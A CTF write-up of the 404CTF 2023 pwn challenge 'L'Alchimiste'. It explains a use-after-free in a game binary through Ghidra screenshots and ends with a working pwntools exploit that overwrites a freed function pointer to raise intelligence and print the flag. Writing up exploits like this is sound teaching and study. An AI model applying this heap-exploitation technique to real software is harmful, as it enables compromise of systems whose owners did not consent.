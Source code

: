 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | L'Alchimiste
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Ghidra, BoF, Use After Free]
permalink: /CTFs/404CTF_2023/Pwn/L_Alchimiste
---
```


# L'Alchimiste

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/06a3eb5c-571f-41f9-93c9-5b7d9914e6df)

For this challenge, we are given [this](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Reverse/l_alchimiste) executable. We can open it on Ghidra and/or run it to understand how it works.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/94c5dae2-5430-47cc-b15f-062c27f5f2d4)

As we can see, we have multiple options. I first tried to buy a strength potion and to use it multiple time:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c07af379-31f3-4391-aded-708134021734)

As we can see, we have a double free error. This is because, when we use the strength potion, we call the `useItem` function that does the following:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/353f2dfe-6e0a-4cee-b309-1f5092735677)

As we can see, we free the memory at the location of `param_1+0x10`. If we look at the character creation, we can see that it is the address of the function located after the initial parameter:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/90bd0a23-ad3d-48b4-998e-411d2423819a)

> `param1` is the strength, `param2` is the intelligence and param3 is the gold.
{: .prompt-info}

To better understand why this is a function, we can look at the `buyStrUpPotion` function:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/02b7b3ce-76c8-4099-a7db-67c2d2230dde)

As we can see, we set `puVar1` some values and the last value of `puVar1` is the function `incStr` that increase the strength by 10. We can also notice that the function `incStr` is set even if we don't have enough money to buy the strength potion. So we can use repeatedly the option `1` to buy the potion and then use the option with the option `2`. This will allow us to get any amount of strength we want:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/feec0b73-d79f-4137-8ab6-4a30915e84e1)

As we can see, we now have 230 of strength. Let's have a look at how to get the flag... This is what we are here fore XD:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f90e8daa-a620-422c-b01b-69974267ee73)


As we cans see, we need `*param_1 >= 0x96` and `param[1] >= 0x96` where `0x96` is equal to `150` in decimal and those parameters are the strength and the intelligence as we saw earlier.

> Note that `*param` <=> `param_1[0]`.
{: .prompt-info}

We have solved the problem of the strength, but what about the intelligence??? There is no function in the program that calls the `incInt` to do the same thing as for the strength...

After a bit of digging, I found something called `use after free`. As we saw earlier, the memory is free when we call the `useItem` function, but the memory is not set as null before. This is great, at least for us XD.

We now can try to override the address of the function `incStr` with the address of `incInt` after the free of the `useItem`. If we manage to do so, the address of `incInt` will be at the same memory location than the previous `incStr`. Then the call of `useItem` will think that it is calling the `incStr` but it will be calling `incInt`.

Let's see how to this now. For that we need to head back to the `buyStrPotion`. This function will set the address of the `incStr` function int `puVar1[8]` but if we look at the assembly code, we can see that it is at the position `+0x40`.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/2f3380e8-8b75-40c1-b80f-56535e608d66)

We can then try to override the first `64` (`0x40`) characters and then put the address of `incInt` that can be found in Ghidra. But for this to work, we need to call the option `3` that will do a malloc on the same memory location that was previously free with option `2`. 

The final code I used is the following:

```python
from pwn import *
warnings.filterwarnings("ignore", category=BytesWarning)
#io = process("./l_alchimiste")
HOST, PORT = "challenges.404ctf.fr", 30944 
io = remote(HOST, PORT)

def getStrength():
	io.recvuntil(">>> ")
	io.sendline("2")
	io.recvuntil(">>> ")
	io.sendline("1")

def checkStrength():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"FOR: 160" in text:
		return 1
	else:
		return 0

def setInteligence():
	io.recvuntil(">>> ")
	io.sendline("2")

	io.recvuntil(">>> ")
	io.sendline("3")
	io.recvuntil("[Vous] : ")
	io.sendline(b"a"*0x40+p64(0x004008d5))

	io.recvuntil(">>> ")
	io.sendline("1")

def checkInteligence():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"INT: 160" in text:
		return 1
	else:
		return 0

io.recvuntil(">>> ")
io.sendline("1")
okStr = 0
while okStr != 1:
	getStrength()
	okStr = checkStrength()

okInt = 0 
while okInt != 1:
	okInt = checkInteligence()
	setInteligence()
io.recvuntil(">>> ")
io.sendline("5")
print(io.recvline().decode())
print(io.recvline().decode())
print("Flag: ", io.recvline().decode())
```

If we run it locally, we get:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f1ef2eed-9294-4934-ad80-88cd4a81f5cc)

As we can see, we get the test flag we created. We can now run it on the remote host and get the flag:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/dd33e70d-8bae-4e3b-b5cf-7991f7eb2607)


The flag is `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`


